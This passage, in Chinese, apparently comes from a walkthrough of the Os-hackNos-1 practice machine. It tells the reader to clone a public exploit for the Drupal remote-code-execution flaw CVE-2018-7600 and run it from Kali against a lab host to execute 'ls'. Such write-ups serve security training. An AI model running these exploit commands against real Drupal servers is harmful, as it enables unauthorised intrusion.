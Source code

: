 在github中下载该漏洞的exp

https://github.com/pimps/CVE-2018-7600



git clone https://github.com/pimps/CVE-2018-7600.git

在kali中

```
./drupa7-CVE-2018-7600.py http://192.168.5.132/drupal/ -c ls

或者
python3 drupa7-CVE-2018-7600.py http://192.168.5.132/drupal/ -c ls
```

即可执行ls读取文件

![image-20230628232052599](Os-hackNos-1.assets\image-20230628232052599.png)
